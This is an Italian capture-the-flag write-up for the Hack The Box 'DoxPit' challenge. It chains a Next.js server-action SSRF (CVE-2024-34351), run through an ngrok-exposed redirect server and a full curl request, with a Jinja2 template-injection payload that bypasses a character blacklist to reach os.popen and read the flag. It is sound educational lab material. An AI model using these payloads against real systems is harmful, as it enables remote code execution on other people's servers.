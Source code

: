 # DoxPit HTB challenge WRITEUP
[Exploit.py](exploit.py) Made by: [Gianlush](https://github.com/Gianlush/), [simonecris](https://github.com/simonecris)

## step 1: ricerca vulnerabilità
Avviando il docker si nota subito la presenza di un secondo servizio web esposto sulla porta 3000, che fa intuire che sia necessario un qualche tipo di SSRF per accederci tramite l'unico servizio esposto. L'unico endpoint in cui è possibile inserire dell'input non consente alcun tipo di injection. Cercando online la versione di NextJS usata è possibile trovare la PoC per una [CVE](https://github.com/azu/nextjs-CVE-2024-34351) molto utile. Le condizioni per il funzionamento sono tutte soddisfate:
- [NextJS version](DoxPit/challenge/front-end/package.json) <= 14.1.1.
- Utilizzo delle Server Actions (visibile anche quando si clicca su uno qualsiasi dei paste, il che genera una richiesta post).
- [Redirezione](DoxPit/challenge/front-end/app/serverActions.tsx) verso un path che inzia per `/`.

![step1](images/step1.png)

## step 2: preparazione attacco

Sfruttando il codice server della PoC (tradotto da ChatGPT in JS per semplicità), ed inviando una POST definita come dalla CVE alla Web challenge, viene forzato il servizio a rispondere con una richiesta HEAD che viene intercetta dal server js malevolo per forzare una redirezione a localhost permettendoci di accedere al secondo servizio della challenge.

![step2](images/step2.png)

Si può usare un tool come ngrok per esporre questo server, ed usare l'hostname ottenuto come header Origin e Host nella richiesta POST:


```bash
ngrok tcp 80
```

```bash
node server.js
```
```bash
curl 'http://localhost:1337/' \
  -H 'Host: 5.tcp.eu.ngrok.io:17810' \
  -H 'Accept: text/x-component' \
  -H 'Accept-Language: ja,en-US;q=0.9,en;q=0.8' \
  -H 'Cache-Control: no-cache' \
  -H 'Connection: keep-alive' \
  -H 'Content-Type: text/plain;charset=UTF-8' \
  -H 'Next-Action: 0b0da34c9bad83debaebc8b90e4d5ec7544ca862' \
  -H 'Next-Router-State-Tree: %5B%22%22%2C%7B%22children%22%3A%5B%22__PAGE__%22%2C%7B%7D%5D%7D%2Cnull%2Cnull%2Ctrue%5D' \
  -H 'Origin: http://5.tcp.eu.ngrok.io:17810' \
  -H 'Pragma: no-cache' \
  -H 'Referer: http://localhost:1337/' \
  -H 'Sec-Fetch-Dest: empty' \
  -H 'Sec-Fetch-Mode: cors' \
  -H 'Sec-Fetch-Site: same-origin' \
  -H 'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36' \
  -H 'sec-ch-ua: "Not/A)Brand";v="8", "Chromium";v="126", "Google Chrome";v="126"' \
  -H 'sec-ch-ua-mobile: ?0' \
  -H 'sec-ch-ua-platform: "macOS"' \
  --data-raw '[]'
  ```

La registrazione va a buon fine, il che significa che si può effettivamente raggiungere il servizio:

![step3](images/step3.png)


## step 3: ricerca vulnerabilità secondo servizio

A questo punto serve studiare il secondo servizio per individuare dei punti di attacco. Per comodità è stato modificato il docker della challenge per esporre anche la porta 3000 così da poter testare eventuali payload più facilmente.

La homepage consente di fare una scansione del filesystem, che potrebbe risultare utile dato che la flag viene scritta su un file con un nome randomico, tuttavia la scansione della directory `/` non restiuisce risposta, probabilmente a causa del timeout e della durata della scansione dell'intero filesystem. Sia `register` che `login` che non presentano possibilità di injection, e la scansione utilizza il parametro `directory` e lo inserisce nel template della pagina risultato. Sono presenti dei check sui char presenti nel valore directory il che fa pensare che si voglia impedire una **SSTI**.

Abbiamo cercato online e testato dei possibili SSTI payload per jinja2 e siamo stati fortunati. Utilizzando il seguente payload trovato su [github](https://github.com/HackTricks-wiki/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/jinja2-ssti.md) abbiamo avuto la conferma che la Template Injection fosse possibile:

`<pre>  {% raw %} <script> alert('There is SSTI here') </script> {% endraw %}     </pre>`

![step4](images/step4.png)

## step 4: bypass blacklist
Purtroppo il filtro applicato è molto restrigente, infatti anche i payload che si trovano online che tengono conto di alcuni char bloccati quali  `{{` `}}` `.` `_` `[` `]` non funzionano poichè fanno utilizzo di altri char in blacklist come `x` o `\`.

Ad esempio, è possibile trovare su [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti#without-several-chars) il seguente payload, che sebbene non sia funzionamente, apre un ottimo spunto che sta nell'utilizzo dei filtri del template per estrarre i parametri dalla richiesta stessa, come gli argomenti del'url, o un particolare header. Infatti, su di essi non viene fatto il check di sicurezza perciò è possibile inserirci anche caratteri non desiderati.

`{%with a=request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls${IFS}-l')|attr('read')()%}{%print(a)%}{%endwith%}`

Qui si tentava di encodare il `_` con `\x5f` che per il nostro problema non è fattibile, tuttavia l'utilizzo di `request|attr()` ci ha portato a studiare più a fondo questi filtri e così abbiamo scoperto che è possibile usarli, appunto, per estrarre dati dagli argomenti del'url, come indicato anche su questo [sito](https://ctf.zeyu2001.com/2022/securinets-ctf-finals-2022/strong).

Per applicare questo exploit è sufficiente aggiungere nel'url l'argomento `&__=a` come primo argomento, in modo da fargli riferimento con il filtro `first` e poi sostituire ogni occorrenza del `_` con `underscore = request|attr('args')|list|first`, anche se con qualche accortenza aggiuntiva, infatti è necessario usare questo formato: `((underscore, 'globals', underscore)|join)` così da unire il tutto in un'unica stringa.

A questo punto è possibile formare il payload finale:

`/home?__=a&directory={%with a=request|attr("application")|attr((request|attr('args')|list|first,"globals",request|attr('args')|list|first)|join)|attr((request|attr('args')|list|first,"getitem",request|attr('args')|list|first)|join)((request|attr('args')|list|first,"builtins",request|attr('args')|list|first)|join)|attr((request|attr('args')|list|first,'getitem',request|attr('args')|list|first)|join)((request|attr('args')|list|first,'import',request|attr('args')|list|first)|join)('os')|attr('popen')('ls -l')|attr('read')()%}{%print(a)%}{%endwith%}`

![step5](images/step5.png)

## step 5: passo indietro; autenticazione

Non resterebbe altro che mettere insieme tutte le cose viste finora, cioè avviare il server js che ci reindirizzi alla pagine di registrazione, successivamente modificare il server perchè ci reindirizzi alla pagina di login ed infine alla pagina home dove iniettare il payload. Il problema sta però nel fatto che poichè si tratta di un banale redirect, il nostro server js non è in grado di mantenere traccia del cookie generato. Fortunamente si può sfruttare un'altra debolezza del codice, cioè il fatto che l'endpoint `home` è protetto dal `auth_middleware` il quale, se non trova una sessione già stabilità, verifica se nel url è presente l'argomento `token` e se tale token sia valido. Grazie al metodo register siamo in grado di ottenere un token valido e quindi proseguire nell'attacco che sarà dunque eseguito in 2 fasi:

### fase 1: registrazione utente

Qui si può fare riferimento allo [step 2](#step-2-preparazione-attacco), durante il quale abbiamo individuato il `token: d94a1bb48312d981370ae62116c3ab28` che possiamo usare nella fase successiva.

### fase 2: recuperare la flag

Per farlo, il comando da iniettare è banale: `cat /flag*`, che funziona anche non sapendo il nome completo della flag:

![final](images/final.png)